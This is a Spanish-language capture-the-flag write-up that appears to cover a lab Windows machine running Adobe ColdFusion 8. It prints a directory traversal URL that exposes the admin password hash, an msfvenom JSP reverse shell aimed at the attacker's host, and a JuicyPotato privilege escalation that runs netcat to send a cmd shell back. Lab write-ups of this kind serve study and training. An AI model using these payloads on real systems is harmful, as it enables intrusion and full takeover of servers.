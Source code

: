 
# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows

![Texto alternativo](/imgs/1.jpg)


Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus



Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services



Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.


Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/





Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8



Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp


Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra



Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.



Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 


Busco vulnerabilidades de Adobe ColdFusion 8



Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03



Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”


En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:



Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp



Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp



Comparto el archivo shellreverse.jsp
python3 -m http.server 80


Guardo archivo como tarea programada


Corro la tarea programada



Verifico la carga del archivo







Me pongo en escucha por el puerto 443



Recibo la consola autenticado como tolis en la máquina víctima






# Explotación WEB






# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”



Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe



Me pongo en escucha por el puerto 4646



Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"



Recibo  la consola



Encuentro la Flag







# Links útiles


  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios
## Exploits
## Herramientas
